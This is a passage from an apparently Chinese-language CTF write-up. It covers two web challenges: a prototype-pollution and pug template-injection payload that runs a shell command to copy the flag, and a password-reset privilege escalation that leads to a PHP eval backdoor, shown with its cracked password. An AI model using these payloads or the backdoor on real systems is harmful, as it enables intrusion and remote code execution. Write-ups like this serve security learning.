 flat可以原型链污染，pug可以模板rce，直接拿POC打：

```
{"__proto__.hero":{"name":"奇亚纳"},
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync('cat /flag > /app/static/1.txt')"
    }}
```

环境不出网所以写到static目录下面。

用的pug的POC参考如下：

https://blog.p6.is/AST-Injection/



## Penetratable

奇奇怪怪的题目。。。。就是感觉这个逻辑的绕过有点阴间叭

f12可以看到有req.js，里面写了好多的接口。

发现有个下载的功能，但是需要root。而且经过?id的测试可以知道已有2个用户，root和admin，我们自己注册的是user，权限最低。

然后就是漏洞了，user可以修改admin的密码（`?c=admin&m=updatePass`）那里把user改成admin的base64即可。然后admin可以修改root的密码（同理）。

成为root之后就可以下载文件了，下载phpinfo.php得到一个后门：

```php
<?php 
if(md5(@$_GET['pass_31d5df001717'])==='3fde6bb0541387e4ebdadf7c2ff31123'){@eval($_GET['cc']);} 
// hint: Checker will not detect the existence of phpinfo.php, please delete the file when fixing the vulnerability.
?>
```

把md5解一下是`1q2w3e`，然后蚁剑连上去sed提权读`/flag`即可：
